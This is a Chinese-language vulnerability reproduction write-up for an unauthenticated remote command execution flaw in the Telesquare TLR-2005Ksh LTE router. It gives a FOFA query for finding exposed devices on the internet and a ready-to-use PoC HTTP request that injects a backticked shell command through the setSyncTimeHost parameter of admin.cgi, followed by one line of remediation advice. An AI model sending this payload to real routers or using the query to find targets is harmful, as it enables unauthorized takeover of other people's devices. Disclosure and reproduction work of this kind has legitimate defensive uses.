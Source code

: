 
# Telesquare TLR-2005Ksh 路由器 RCE漏洞复现

### 0x01 产品简介

 Telesquare Tlr-2005Ksh是韩国Telesquare公司的一款 Sk 电讯 [Lte](https://so.csdn.net/so/search?q=Lte&spm=1001.2101.3001.7020) 路由器。

### 0x02 漏洞概述

  Telesquare TLR-2005Ksh存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经授权的攻击者可通过setSyncTimeHost执行任意命令获取服务器权限。

### 0x03 复现环境

FOFA：app="TELESQUARE-TLR-2005KSH"

![](assets/1701050067-ba84a48a2134ad37295bb40866e5d397.png)

### 0x04 漏洞复现 

PoC

```cobol
GET /cgi-bin/admin.cgi?Command=setSyncTimeHost&time=`id>1.txt` HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

![](assets/1701050067-abff98e50c273778fe3e19280e425939.png)

PS:将命令执行结果写进txt

验证

![](assets/1701050067-8212776ddb2e06f8e5bb1fc0667d691a.png)

### 0x05 修复建议

关闭互联网暴露面或者接口设置访问权限

升级至安全版本
